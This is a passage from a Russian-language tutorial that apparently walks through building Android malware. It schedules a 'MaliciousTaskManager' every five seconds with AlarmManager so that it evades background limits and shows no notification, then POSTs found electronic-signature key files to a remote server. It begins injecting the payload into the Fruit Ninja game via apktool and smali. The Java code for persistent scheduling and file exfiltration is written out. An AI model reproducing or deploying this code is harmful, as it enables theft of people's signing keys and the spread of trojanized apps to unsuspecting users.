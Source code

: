 ```StageAttack``` - состоит из одного статического метода, который начинает нашу атаку. Мы специально создаем переходный статический метод, для удобства внедрения в готовый класс.
{% endhighlight %}

Если ЭЦП не найдено, мы будем повторять поиск каждые 5 секунд, пока не найдем. Интервал можно использовать любой. Взяв слишком маленький интервал, наш сервис рискует быть остановленным системой. Чем выше версия андроида, тем суровее политика в отношении работы фоновых процессов. Foreground service мы тоже не можем использовать, так как для этого постоянно должно висеть уведомление. Не являясь андроид разработчиком, я потратил кучу времени, чтобы найти способ запланировать задачу, которая будет выполняться точно в срок. Это не так просто, как кажется. В андроиде есть несколько рекомендуемых для этого способов (JobService, WorkManager, setRepeating() AlarmManager'а). В документации неочевидно указано, что интервал задачи должен быть не менее 15 минут и время ее выполнения зависит от желания системы. Нас это не устраивает, поэтому мы используем класс ```AlarmManager```, метод ```setExactAndAllowWhileIdle()```. Когда задача выполниться, снова ее планируем, с таким же интервалом. Это единственный на данный момент способ известный мне, имеющий самую высокую точность.

{% highlight java %}
private void scheduleMalService() {

        Context ctx = getApplicationContext();
        AlarmManager alarmMgr = (AlarmManager) ctx.getSystemService(Context.ALARM_SERVICE);
        Intent intent = new Intent(ctx, MaliciousTaskManager.class);

        final int _id = (int) System.currentTimeMillis();
        PendingIntent alarmIntent = PendingIntent.getBroadcast(ctx, _id, intent, 0);

        alarmMgr.setExactAndAllowWhileIdle(AlarmManager.RTC_WAKEUP, System.currentTimeMillis() 
		+ 5000, alarmIntent);
    }
{% endhighlight %}

Если ЭЦП найдено, то мы отправляем файл на сервер:

{% highlight java %}
private void sendToServer(String path) {
    File file = new File(path);
    URL url = new URL("http://xxxxxxxxxx");
    HttpURLConnection urlConnection = (HttpURLConnection) url.openConnection();
    urlConnection.setConnectTimeout(30 * 1000);

    urlConnection.setRequestMethod("POST");
    urlConnection.setDoOutput(true);
    urlConnection.setRequestProperty("Content-Type", "application/octet-stream");

    DataOutputStream request = new DataOutputStream(urlConnection.getOutputStream());
    request.write(readFileToByteArray(file));
    request.flush();
    request.close();

    int respCode = urlConnection.getResponseCode();
    Log.d(TAG, "Return status code: " + respCode);
}
{% endhighlight %}

## Внедряем payload

Первым делом декомпилируем Fruit Ninja, с помощью [apktool](https://ibotpeaches.github.io/Apktool/). Мы не декомпилируем приложение до java кода, так как после модификации, мы не сможем собрать его обратно. Нам необходимо получить именно smali классы. И внедрять наш код мы тоже будем в виде smali кода. 

<details><summary>Что такое smali код?</summary></details>

```